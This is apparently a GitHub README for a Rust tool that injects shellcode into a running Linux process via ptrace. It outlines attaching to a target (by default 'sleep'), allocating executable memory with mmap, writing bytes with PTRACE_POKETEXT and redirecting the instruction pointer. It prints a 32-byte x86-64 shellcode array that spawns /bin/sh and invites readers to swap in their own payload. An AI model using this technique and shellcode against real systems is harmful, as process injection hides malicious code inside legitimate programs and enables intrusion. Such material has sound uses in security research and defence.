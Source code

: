 # Ptrace Shellcode Injection Example

This Rust project demonstrates how to inject shellcode into a target process using `ptrace` to allocate memory, write shellcode, and execute it by modifying the target process's registers.

## Features

- Attach to a target process using `ptrace`. (By default this is the `sleep`` command. Modify the process_name variable to target a different process.)
- Allocate executable memory in the target process using the `mmap` system call.
- Write shellcode into the allocated memory using `PTRACE_POKETEXT`.
- Modify the instruction pointer (`RIP`) to execute the injected shellcode.
- Cleanly detach from the target process after injection.

## Prerequisites

- Rust (latest stable version recommended)
- Root privileges to execute the program (or adjust `ptrace_scope` settings).

## Shellcode Example

The example includes shellcode to execute `/bin/sh` using the `execve` system call. Modify the shellcode as needed for your use case.

```rust
let shellcode: [u8; 32] = [
    0x48, 0x31, 0xff,                         // xor    rdi, rdi
    0x48, 0x89, 0xe6,                         // mov    rsi, rsp
    0x48, 0x8d, 0x3d, 0x0a, 0x00, 0x00, 0x00, // lea    rdi, [rip+10]
    0x31, 0xc0,                               // xor    eax, eax
    0x48, 0xc7, 0xc0, 0x3b, 0x00, 0x00, 0x00, // mov    rax, 59 (execve)
    0x0f, 0x05,                               // syscall
    0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00  // "/bin/sh"
];
```